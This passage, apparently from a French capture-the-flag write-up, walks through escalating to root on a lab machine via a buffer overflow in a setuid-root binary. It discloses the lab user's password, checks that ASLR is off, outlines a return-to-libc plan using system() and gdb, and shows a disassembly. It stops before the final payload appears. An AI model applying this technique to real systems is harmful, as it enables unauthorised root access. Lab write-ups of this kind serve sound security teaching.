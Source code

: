 Voici donc les nouveaux identifiats, ceux de `zaz - 646da671ca01bb5d84dbb5fb2238dc8e`

## Étape 9 - Ssh via zaz:

On trouve un binaire `exploit_me` et un dossier mail.

Après avoir cherché dans le dossier mail sans rien trouver, on s'est concentré sur le binaire `exploit_me`. On a copié le binaire sur le mac pour pouvoir le décompliler avec [ghidra](https://ghidra-sre.org/). On a pu voir dans le main une utilisation de la fonction strcpy qui n'était pas protegée.

Avant d'essayer d'exploiter le buffer overflow du binaire, nous avons verifié que l'`ASLR` (address space layout randomization), une proctetion système qui attribue des adresses mémoire random à chaque exécution d'un binaire, ne soit pas activée sur le serveur.

```sh
#> cat /proc/sys/kernel/randomize_va_space
0
```

Pour que la fail du strcpy puissent nous donner les accèss à root nous devons verifier aussi que le binaires appartient à l'utilisateur root.

```sh
#> ls -la exploit_me
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
```

Le binaire a donc bien les droits d'exécution root, la faille que nous allons essayer d'exploiter pourrais nous donner les droits root.

Ce que nous allons essayer de faire est de lancer un terminal via la fonction system de la libc en écrivant sur l'overflow (au delà de 140 chars) l'adresse de cette fonction et l'adresse de la variable d'environnement shell que l'on veut exécuter. Cela va nous permettre d'avoir un terminal avec accès root car le binaire qui lance ce terminal a l'accès root.

On a remarqué que le programme avait un segfault quand on lui envoyait une chaine de plus de 140 caractères. On a lancé le binaire avec `GDB` et on a mis un break point pour trouver l'adresse de la fonction `system` et de la variable d'environement `SHELL`.

```sh
#> gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) break *0x08048425
Breakpoint 1 at 0x8048425
```